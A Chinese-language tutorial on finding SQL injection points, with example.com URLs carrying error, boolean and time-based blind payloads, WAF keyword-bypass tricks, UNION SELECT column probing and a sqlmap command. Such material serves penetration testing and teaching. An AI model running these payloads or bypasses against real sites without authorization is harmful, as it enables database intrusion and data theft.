

# 如何判断SQL注入点

以下是系统性的注入点判断方法和操作步骤：

## 1. 识别输入点
**检测位置**：

> URL查询参数（如`?id=1`）
>
> 表单输入字段（登录框/搜索框）
>
> HTTP头部（Cookie/User-Agent/Referer）
>
> REST API参数（JSON/XML数据）

## 2. 初步探测
### （1）单引号测试
```http
http://example.com/?id=1'
```

预期结果：

> 数据库错误（如MySQL的"语法错误"）
>
> 500服务器错误
>
> 页面布局异常

### （2）逻辑测试

```http
正常情况：http://example.com/?id=1
恒真条件：http://example.com/?id=1' AND '1'='1
恒假条件：http://example.com/?id=1' AND '1'='2
```

对比观察：

> 恒真条件返回正常页面
>
> 恒假条件返回空白/错误页面

## 3. 参数类型判断

### （1）数字型参数

```http
原始请求：http://example.com/?id=1
修改为：http://example.com/?id=1+1
```

判断依据：

> 若返回`id=2`的结果则为数字型
>
> 支持运算表达式（如3-2/5*1）

### （2）字符型参数

```http
原始请求：http://example.com/?id=user
修改为：http://example.com/?id=user'||'test
```

判断依据：

> 返回`usertest`相关结果
>
> 需要闭合引号（'或"）

## 4. 注释符验证

```sql
MySQL：--+ 或 #
MSSQL：--
Oracle：--
```

**测试用例**：

```http
http://example.com/?id=1'--+
http://example.com/?id=1' ORDER BY 3#
```

## 5. 盲注检测

### （1）布尔型检测

```http
正常：http://example.com/?id=1' AND 1=1--+
异常：http://example.com/?id=1' AND 1=2--+
```

判断方法：

> 对比两个请求的响应差异
>
> 检查页面元素/内容长度变化
>

### （2）时间型检测

```http
MySQL：http://example.com/?id=1' AND SLEEP(5)--+
MSSQL：http://example.com/?id=1'; WAITFOR DELAY '0:0:5'--
```

判断标准：响应时间显著增加（≥5秒）

## 6. 过滤规则测试

### （1）关键字绕过

```http
大小写混合：hTtp://example.com/?id=1' uNIoN sELecT 1,2,3--+
内联注释：http://example.com/?id=1'/*!UNION*/SELECT 1,2,3--+
```

### （2）特殊字符绕过

```http
URL编码：%27 → '，%20 → 空格
双重编码：%2527 → '，%253C → <
```

## 7. 联合查询验证

```http
步骤1：确定字段数
http://example.com/?id=1' ORDER BY 5--+

步骤2：验证回显位置
http://example.com/?id=-1' UNION SELECT 1,2,3--+
```

成功标志：

> 页面显示数字2或3的位置
>
> 可在数字位插入SQL函数测试（如version()）

## 8. 工具辅助验证

```bash
使用sqlmap检测：
sqlmap -u "http://example.com/?id=1" --batch --level=3
```

关键输出：

> 存在可注入参数标识
>
> 数据库类型确认



```
graph TD
A[开始] --> B{识别输入点}
B --> |成功| C[单引号测试]
B --> |失败| Z[结束]
C --> D{是否报错}
D --> |是| E[确认字符型注入]
D --> |否| F[逻辑测试]
F --> G{页面变化}
G --> |有差异| H[存在注入漏洞]
G --> |无差异| I[尝试盲注测试]
I --> J{时间延迟/布尔结果}
J --> |存在差异| H
J --> |无差异| Z
```

